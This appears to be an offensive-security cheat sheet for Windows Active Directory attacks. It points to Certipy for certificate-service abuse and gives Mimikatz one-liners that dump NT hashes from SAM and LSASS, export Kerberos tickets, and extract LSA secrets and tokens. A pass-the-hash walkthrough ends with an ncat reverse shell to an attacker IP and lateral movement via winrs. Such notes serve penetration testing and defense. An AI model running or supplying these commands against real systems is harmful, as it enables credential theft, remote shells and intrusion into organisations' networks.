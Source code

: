 **Steps**:
1. *enumeration* - [Certipy](https://github.com/ly4k/Certipy) is an offensive tool for enumerating and abusing Active Directory Certificate Services (AD CS)
2. *exploitation* - a great resource that explains how abusing of a specified misconfiguration is available at [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)

## Mimikatz

Release: [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

**Requirements**:
- user who is a member of the *Administrators* group for most commands

**Tips**:
- *one-line command*: 
	- `.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit`

### ExtractingSecrets

**Info**:
- `"token::elevate"` is needed when we need to elevate our privileges to accomplish a certain command. Typical use is when we run *mimikatz* as Administrator and need to elevate privileges to SYSTEM. Ideally, if we already have a shell with SYSTEM (example: via *psexec.py*) we do not need to

- NT hashes from local SAM (*tips: hashcat mode is 1000*)
	- `.\mimikatz "privilege::debug" "token::elevate" "lsadump::sam" exit`
- NT hashes from LSASS
	- (only LM and NT hash) `.\mimikatz "privilege::debug" "token::elevate" "sekurlsa::msv" exit`
	- (credentials from all providers) `.\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit`
- Kerberos Ticket
	- (*listing*) `.\mimikatz "privilege::debug" "sekurlsa::tickets" exit`
	- (*export*) `.\mimikatz "privilege::debug" "sekurlsa::tickets /export" exit`
- Kerberos Keys
	- `.\mimikatz "privilege::debug" "sekurlsa::ekeys" exit`
- LSA secrets
	- `.\mimikatz "privilege::debug" "lsadump::secrets" exit`
	- `.\mimikatz "privilege::debug" "lsadump::cache" exit`
- tokens
	- `.\mimikatz "privilege::debug" "token::list" exit`

### PassTheHashMimikatz

**Steps**:
1. `mimikatz.exe`
2. `privilege::debug`
3. `token::elevate`
4. *NT hashes dumping*:
	- **from SAM**: `lsadump::sam`
	- **from LSASS**: `sekurlsa::msv` (*NT hashes dumping of any local users and domain users logged recently in the machine*)
5. `token::revert`
6. *netcat* listener: `nc -nvlp 53`
7. `sekurlsa::pth /user:<USERNAME> /domain:<DOMAIN NAME> /ntlm:<NT HASH> /run:"c:\tools\ncat.exe -e cmd.exe <IP ATTACKER> 53"`
8. shell received by the listener will contain in memory the access token of the domain user `<USERNAME>`. We can connect to the target machine and get a shell:
	- `winrs.exe -r:<HOSTNAME TARGET> cmd` (*winrs* only works well from CMD)
